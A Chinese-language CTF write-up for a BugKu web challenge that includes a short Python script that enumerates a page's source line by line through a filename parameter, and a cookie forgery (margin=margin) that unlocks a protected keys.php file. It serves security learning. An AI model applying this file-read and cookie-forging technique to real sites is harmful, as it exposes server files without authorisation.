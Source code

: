 ### 伪造 Cookie

话不多说，直接上题（BugKu CTF）

![](https://pic1.imgdb.cn/item/67b0adb6d0e0a243d4ffb210.jpg)

打开网页啥也没有，URL 有段 Base64 编码

![](https://pic1.imgdb.cn/item/67b0adc8d0e0a243d4ffb213.jpg)

解码得到 ket.txt

![](https://pic1.imgdb.cn/item/67b0add7d0e0a243d4ffb214.jpg)

同理编码访问 index.php

![](https://pic1.imgdb.cn/item/67b0ade8d0e0a243d4ffb215.jpg)

访问没东西，注意到 line 参数值为空

这个翻译过来是行号的意思，输入 1 得到回显

![](https://pic1.imgdb.cn/item/67b0ae03d0e0a243d4ffb218.jpg)

编写脚本访问得到源码

```python
import requests

a = 30

for i in range(a):
    url = "http://120.24.86.145:8002/web11/index.php?line=" + str(i) + "&filename=aW5kZXgucGhw" 
    s = requests.get(url)
    print(s.text)
```

```php
<?php
 
error_reporting(0);
 
$file=base64_decode(isset($_GET['filename'])?$_GET['filename']:"");
 
$line=isset($_GET['line'])?intval($_GET['line']):0;
 
if($file=='') header("location:index.php?line=&filename=a2V5cy50eHQ=");
 
$file_list = array(
 
'0' =>'keys.txt',
 
'1' =>'index.php',
 
);
 
 
 
if(isset($_COOKIE['margin']) && $_COOKIE['margin']=='margin'){       //看这里
 
$file_list[2]='keys.php';
 
}
 
 
 
if(in_array($file, $file_list)){
 
$fa = file($file);
 
echo $fa[$line];
 
}
 
?>
```

关键代码检查有没有设置 Cookie margin，同时判断其值是否为 margin，最后才能访问 keys.php 文件

打开 BurpSuite 抓包拦截设置 Cookie，同时不要忘了编码 keys.php，以及删除 line 参数值

![](https://pic1.imgdb.cn/item/67b0ae8cd0e0a243d4ffb228.jpg)